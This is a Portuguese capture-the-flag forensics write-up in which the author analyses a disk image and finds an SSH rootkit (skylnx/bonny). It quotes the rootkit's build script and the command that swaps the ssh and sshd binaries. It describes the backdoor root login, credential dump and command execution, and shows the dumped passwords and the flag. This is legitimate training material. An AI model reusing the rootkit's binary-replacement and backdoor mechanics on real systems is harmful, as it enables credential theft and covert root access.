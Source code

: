 # CHALLENGE DA VIRADA (2018 -> 2019)

> Challenge da virada (2018 -> 2019)
> 
> Resolvido por: aguardando
> 
> Nome: Rootkit
> 
> Descrição: Suspeitamos que um de nossos servidores foi ownado pela Inteligência da Bloodsuckers. Tudo indica para o fato de terem instalado um binary rootkit em nosso sistema, visando conseguir nossas credenciais para tentarem usar em outros servidores. Faça uma análise forense no dump do sistema, e ao identificar o comprometimento, faça um reversing para identificar a senha que dá acesso ao dump (sniffer) das senhas. Após isso, entendendo o funcionamento do rk, obtenha a última senha legítima utilizada pelo root na máquina, pois achamos que ela foi mudada pelo pessoal da Inteligência por uma default deles, e também pode nos ser útil em outros dos seus sistemas, como a de dump! (o feitiço virou contra o feiticeiro!). Submeta no formato CTF-BR{SenhaUsadaParaDump,UltimaSenhaRootLegitima}. Não temos as credenciais, isso faz parte do desafio.
> 
> Categoria: Forensics
> 
> Link do arquivo: [aqui](https://static.pwn2win.party/2017/rootkit_3e4df5d6a3926cbc81ebf014a82098ad0964653aaedf581cd1bbc06eb3756642.tar.gz)
> 
> Write-up do vencedor: aguardando
> 
> Lançamento: 31 de dezembro de 2018
>
> Resolução: aguardando

**WRITE-UP**

Este ano o desafio do CTF-BR para o [Hall of Fame](https://ctf-br.org/hall-of-fame/) trouxe um desafio de forense bem interessante. Aparentemente um de nossos servidores foi ownado e pra melhorar instalaram um rootkit...![¬___¬'](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRlZRFJevs0yhUbh1NBE7QsxQ9VohUZ86ErbhudcxmxHi_15W7l "Malditos Hackers ¬__¬'")

O desafio nos pede para analisar o dump do sistema e determinar duas coisas:
  1. senha utilizada para dump, e;
  2. última senha root legítima.
 
Após fazer o download, verifiquei qual o tipo de arquivo e seu respectivo hash:
(IMAGENS). _hashes diferentes? Õ_õ.._

Como o challenge não informou as credenciais desta máquina, resolvi seguir duas abordagens:
  1. recuperar os arquivos da imagem dada utilizando o [photorec](https://www.cgsecurity.org/wiki/PhotoRec), e;
  2. alterar a senha do root para facilitar a análise _ao vivo_ da máquina.
  
## Recuperando arquivos com o photorec 

O photorec é excelente para recuperação de arquivos. Basta criar um diretório de saída para os arquivos recuperados e executa-lo passando o arquivo da imagem como parâmetro:

```shell
mkdir photo
photorec ub1404lts-disk1.vmdk
```

Feito isso, o programa recuperou diversos arquivos e os dividiu em 29 diretórios (recup_dir.xx). A idéia era procurar por algum indicativo deste malware na imagem. Como não sabia o que procurar tentei a string 'rootkit' \o/!

(IMAGEM GREP RECURSIVO)

Analisando o script observamos que a senha utilizada para _dump_ é definida como MAGIC_VERSION no arquivo bonny.h, conforme destaque a seguir: 

```shell
cat <<_BONNY_ > version.h
#define SSH_VERSION     "$FAKEV"
#define SSH_PORTABLE    "$FAKEP"
#define SSH_RELEASE     SSH_VERSION SSH_PORTABLE
_BONNY_

: ${CBDPASS:=`./mkpasswd -p $UBDPASS`}
cat <<_BONNY_ > bonny.h
#define BD_PASS			"$CBDPASS"
#define MAGIC_VERSION	"$UDPPASS"
#define SKYCOMMAND      "$USPPASS"
_BONNY_
```

Ok, estamos um passo mais próximos de obter a nossa primeira flag (senha utilizada para o dump). Buscando por bonny.h encontramos outro fonte. O arquivo recuperado veio pela metade, mas ajudou a ter uma idéia melhor sobre o que procurar. 
(IMAGEM SCRIPT bonny)

Passando rapidamente pelo código, este rootkit substitui os binários do ssh e sshd por sua versão infectada (mas como o autor é bonzinho ele faz o backup dos arquivos para você antes de te infectar :)...

```script
mv /usr/bin/ssh ssh.old && cp ssh /usr/bin/ssh && mv /usr/sbin/sshd sshd.old && cp sshd /usr/sbin/sshd
```

Neste momento comecei a pesquisar por rootkits com estes nomes: skynet, skylnx e bonny, dentre outras strings que aparecem no fonte. Viajei por algum um tempo e lembrei que ainda não havia investigado a máquina. Com as informações que consegui até então ficou mais fácil procurar o que eu queria no sistema. _OBs: cabe ressaltar que a este ponto após analisar alguns arquivos que foram recuperados, encontrei um .tar.gz que possuía o fonte do rootkit skylnx._

## Análise da máquina 'viva'

Nesta análise utilizei uma máquina virtual Ubuntu que tinha pego da [OSBoxes](https://www.osboxes.org/) e apenas substitui seu disco pela imagem do desafio. As credenciais não foram informadas, então substituí a senha do [root](https://unix.stackexchange.com/questions/76313/change-password-of-a-user-in-etc-shadow) por _password_ alterando o [menu do grub](https://askubuntu.com/questions/24006/how-do-i-reset-a-lost-administrative-password).

(IMG do init=/bin/bash)

Agora com acesso comecei a investigar melhor o servidor SSH (/usr/sbin/sshd). Pude identificar que a versão do SSHD realmente havia sido modificada pelo rootkit:

```shell
root@rf-server4:/# grep skylnx /usr/sbin/sshd       
Binary file /usr/sbin/sshd matches
```

Reparei que não havia encontrado o arquivo bonny.h (que possui as senhas para operação do rootkit) nos arquivos recuperados pelo photorec. Então fiz uma pesquisa nos ELF (mais uma vez, salvo pelo SANTO STRINGS) e encontrei lá (no que deve ser o binário do SSHD) as senhas.

(IMG ROOTKIT STRINGS)

Após mais algum tempo no código-fonte resolvi que daria muito trabalho criar o meu próprio cliente SSH para enviar as strings de versão que o rootkit estava esperando (mas pode ser um bom exercício se você está aprendendo programação). Como eu não confio no gnx (e você também não deveria) resolvi baixar o código do rootkit para a máquina ownada e comecei a brincar a partir dela. 

Depois de algum tempo entendi o funcionamento do _skycommand.c_ e compilei o meu *skycmd* para conseguir realizar o dump que o desafio pede:
```script
root@rf-server4:/tmp/tmp.sQwn28gO1I/skylnx2# ./skycmd 127.0.0.1 22 wl4SUuXeSU
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
SSH-2.0-OpenSSH_6.6.1
pass_from: ::1 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: AhooCo7wei
pass_from: 192.168.0.177 	user: root 	pass: OhCeW4ahsh             # última senha válida do root :)
pass_from: 192.168.0.177 	user: root 	pass: Woemash9ie4chee7Oe4p   # senha alterada pelos 'malditos hackers'
pass_from: 192.168.250.1 	user: user 	pass: password               # senha que nós alteramos
```

Aprendemos que o código possui três características principais:
  1. permite autenticação como root caso você informe a senha que foi configurada no BD_PASS;
  2. realiza um dump que revela as credenciais utilizadas nas últimas tentativas válidas de autenticação ao sistema-alvo, quando recebe como informação de versão local do cliente SSH a string configurada em MAGIC_VERSION; 
  3. executa um comando como root se você informar a string configurada em SKYCOMMAND se você executar o binário gerado pelo _skycommand.c_ como a versão local do cliente SSH seguida de um comando.

Gostei do desafio pois fazia uns 3 anos que não mexia com o photorec e nada relacionado a forense e investigação. Também foi muito bom para relembrar conceitos básicos de administração de SO (reset da senha do ubuntu), noções de programação e engenharia reversa.

## Here is a flag for you 
**FLAG: CTF-BR{wl4SUuXeSU,OhCeW4ahsh}**

\o/ RTFM \o/

